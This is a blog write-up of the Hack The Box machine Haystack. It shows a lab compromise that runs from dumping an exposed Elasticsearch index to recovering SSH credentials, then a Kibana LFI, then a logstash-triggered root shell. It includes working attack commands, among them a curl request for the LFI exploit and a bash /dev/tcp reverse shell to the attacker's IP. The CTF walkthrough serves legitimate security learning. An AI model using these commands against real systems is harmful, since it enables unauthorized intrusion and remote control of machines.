 +++
author = "Nick"
categories = ["CTF", "NetSec", "Linux", "ELK", "reverse shell", "api", "netcat"]
date = 2019-11-02T15:51:17Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/08/info-1.png"
slug = "hack-the-box-haystack"
summary = "Welcome back! Today we are doing the machine Haystack on Hack the Box. Lets jump in!"
tags = ["CTF", "NetSec", "Linux", "ELK", "reverse shell", "api", "netcat"]
title = "Hack The Box - Haystack"

+++


Welcome back! Today we are doing the machine Haystack on Hack the Box. Lets jump in!

As usual, we start off with a standard nmap scan ``` nmap -sC -sV -oA ./haystack_scan 10.10.10.115 ``` 

We get back a small amount of results.
```
Nmap scan report for 10.10.10.115
Host is up (0.12s latency).
Not shown: 997 filtered ports
PORT     STATE      SERVICE VERSION
22/tcp   unfiltered ssh
80/tcp   unfiltered http
9200/tcp unfiltered wap-wsp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.53 seconds
```

The first things we'll do is take a peek at what's running on port 80. When we browse to it we get a picture of a needle... in a haystack. Awesome. Nothing really in the source and nothing crazy about the image either. We'll run a quick dirbuster against the page and see what comes back.

To do that we'll run ```dirb http://10.10.10.115/ /usr/share/wordlists/dirb/common.txt ```This will just check for what might there. Once this comes back maybe we'll run it again looking for .html, .php and other file types.

While that runs, we curl port 9200 and we get back some json from an Elasticsearch install. Which means that Elasticsearch REST API is listening on this port. We can probably use this to run some queries.

First we'll try to get the list of indices, keeping in mind I'm working on the free labs these results tend to vary. We'll head over to the browser on port 9200 and simply use the '_cat/indices?v' on our url to list them.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-2.png" >}}

We see our standard .kibana index as well as quotes and bank. Lets get the content of these. We can do it in two ways. The first is by just putting our query into the browser. The second is by using curl. We'll craft our request by using the [Elasticsearch documentation](https://www.elastic.co/guide/en/elasticsearch/reference/current/docs.html). We want to target the quotes index first. So we'll use the search function and the size parameter to get the contents of the index. ```curl -H 'Content-Type: application/json' -X GET 'http://10.10.10.115:9200/quotes/_search/?size=500&pretty'``` We use the ?size parameter to specify the size, in this case we'll use 500 since we know there are 253 entries. The &pretty on the end simply formats the JSON in a standard fasion. Once we send the request we get back a ton of data. We'll pipe the data out to a text file for saving: ```curl -H 'Content-Type: application/json' -X GET 'http://10.10.10.115:9200/quotes/_search/?size=500&pretty' > quotes.txt```

Once we open the file, we see just about everything is in Spanish. However, before we translate it, we'll simply page through it for anything that might stick out.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-3.png" caption="Hmmm... 'I have to save the password for the machine'" >}}

This is base64 encoding, so it's unlikley that this string is the password however it does decode to 'user: security'. So we have a username but what about a password? As we keep skimming through the data, we find another:

{{< figure src="__GHOST_URL__/content/images/2019/08/image-4.png" caption="'This key cannot be lost, I keep it here'" >}}

This decodes to pass: spanish.is.key. Well it seems we have a username / password combination, lets see if SSH is going to work for us. Sure does!

{{< figure src="__GHOST_URL__/content/images/2019/08/image-5.png" >}}

Next thing we'll do is run LinEnum to see what we're working with. We'll start up a python server with ```python -m SimpleHTTPServer``` and download our LinEnum script to a tmp directory. Once we have the output we can parse it for anything that could let us escalate. I didn't really see much aside from a user named kibana with no logon services. Some quick googling around leads us to this [Kibana LFI](https://github.com/mpgn/CVE-2018-17246). Great, time to read up on it and see if we can get it to work. The first thing we need to do is check which port the backend service is running on, which by default is 5601 To do that we can look at the kibana.yml. So we issue ```cat /etc/kibana/kibana.yml | grep 5601 -n1```

{{< figure src="__GHOST_URL__/content/images/2019/08/image-6.png" >}}

Sure enough, default port. Before we can launch the LFI we need to upload a shell. In this case, we'll use the one provided in the github. Now that we've created shell.js we can run this LFI against it using cURL. ``` curl 'http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../tmp/1/shell.js' ```

{{< figure src="__GHOST_URL__/content/images/2019/08/image-7.png" >}}

Our netcat session lights up and we have a connection back as kibana. Now we're going to want to spawn a proper terminal session. We do this by making python do our work for us: ```python -c 'import pty; pty.spawn("/bin/sh")' ```. We now have an upgraded account, kibana. Lets run LinEnum again and see what we get back.

It finishes running and we see that we have write access to /opt/kibana/ which is new. So now what? We do some research on how kibana functions and we notice that we have access to read the files in /etc/logstash/conf.d where we didn't before. This is great, now we can see how logstash rules are being processed. After viewing the input.conf file, it seems pretty clear.

{{< figure src="__GHOST_URL__/content/images/2019/08/image-9.png" >}}

We create a file in /opt/kibana/ with the prefix of logstash_. This file will run our commands. However, to do this, we need to understand Grok. Lucky for us there is an online tool to help us out. Grok Online Debugger. So what we need to do is take the Grok pattern from the filter and apply it. Then we can issue the commands and see what we get. So in this case we're going to echo our command into that file. Netcat doesn't seem to run as this user, so we'll bash redirecting.

We'll use the following ```echo "Ejecutar  comando: bash -i >& /dev/tcp/10.10.15.125/1234 0>&1" > /opt/kibana/logstash_1.txt``` A quick break down of the command is we are telling the filter to do the command. 'bash -i' creates and interactive shell session. The '>& /dev/tcp/10.10.15.125/1234' redirects that to a system TCP socket and the '0>&1' connects the standsard input to a standard output. Giving us a shell session. Now that we've executed the above command, we just wait for the rules to fire off and we get root!

{{< figure src="__GHOST_URL__/content/images/2019/08/image-8.png" >}}

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).





